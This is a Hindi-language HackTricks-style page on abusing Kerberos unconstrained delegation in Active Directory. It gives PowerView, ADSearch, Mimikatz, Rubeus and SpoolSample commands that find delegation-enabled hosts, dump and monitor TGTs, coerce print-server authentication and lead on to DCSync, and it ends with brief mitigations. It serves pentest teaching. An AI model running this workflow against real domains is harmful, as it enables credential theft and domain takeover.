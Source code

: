 # Unconstrained Delegation

{{#include ../../banners/hacktricks-training.md}}

## Unconstrained delegation

यह एक विशेषता है जिसे एक डोमेन प्रशासक डोमेन के अंदर किसी भी **कंप्यूटर** पर सेट कर सकता है। फिर, जब भी कोई **उपयोगकर्ता उस कंप्यूटर पर लॉगिन करता है**, उस उपयोगकर्ता का **TGT की एक प्रति** **DC द्वारा प्रदान किए गए TGS के अंदर भेजी जाएगी** **और LSASS में मेमोरी में सहेजी जाएगी**। इसलिए, यदि आपके पास मशीन पर प्रशासक विशेषाधिकार हैं, तो आप **टिकटों को डंप कर सकते हैं और किसी भी मशीन पर उपयोगकर्ताओं का अनुकरण कर सकते हैं**।

तो यदि एक डोमेन प्रशासक "Unconstrained Delegation" विशेषता सक्रिय करके किसी कंप्यूटर पर लॉगिन करता है, और आपके पास उस मशीन के अंदर स्थानीय प्रशासक विशेषाधिकार हैं, तो आप टिकट को डंप कर सकते हैं और कहीं भी डोमेन प्रशासक का अनुकरण कर सकते हैं (डोमेन प्रिवेस्क)।

आप इस विशेषता के साथ **कंप्यूटर ऑब्जेक्ट्स को खोज सकते हैं** यह जांचकर कि [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) विशेषता में [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>) शामिल है या नहीं। आप इसे ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’ के LDAP फ़िल्टर के साथ कर सकते हैं, जो कि पॉवर्व्यू करता है:

<pre class="language-bash"><code class="lang-bash"># List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DCs always appear but aren't useful for privesc
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Export tickets with Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #Check every 10s for new TGTs</code></pre>

प्रशासक (या पीड़ित उपयोगकर्ता) का टिकट मेमोरी में **Mimikatz** या **Rubeus** के साथ लोड करें [**Pass the Ticket**](pass-the-ticket.md)** के लिए।**\
अधिक जानकारी: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Unconstrained delegation के बारे में अधिक जानकारी ired.team पर।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Force Authentication**

यदि एक हमलावर **"Unconstrained Delegation" के लिए अनुमत कंप्यूटर को समझौता करने में सक्षम है**, तो वह **Print server** को **स्वचालित रूप से लॉगिन** करने के लिए **धोखा दे सकता है** **जिससे एक TGT** सर्वर की मेमोरी में सहेजी जाएगी।\
फिर, हमलावर **उपयोगकर्ता Print server कंप्यूटर खाते का अनुकरण करने के लिए Pass the Ticket हमले** को अंजाम दे सकता है।

किसी भी मशीन के खिलाफ प्रिंट सर्वर को लॉगिन कराने के लिए आप [**SpoolSample**](https://github.com/leechristensen/SpoolSample) का उपयोग कर सकते हैं:
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
यदि TGT एक डोमेन कंट्रोलर से है, तो आप एक[ **DCSync attack**](acl-persistence-abuse/#dcsync) कर सकते हैं और DC से सभी हैश प्राप्त कर सकते हैं।\
[**इस हमले के बारे में अधिक जानकारी ired.team पर।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**यहाँ प्रमाणीकरण को मजबूर करने के अन्य तरीके हैं:**

{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### शमन

- DA/एडमिन लॉगिन को विशिष्ट सेवाओं तक सीमित करें
- विशेषाधिकार प्राप्त खातों के लिए "खाता संवेदनशील है और इसे प्रतिनिधित्व नहीं किया जा सकता" सेट करें।

{{#include ../../banners/hacktricks-training.md}}
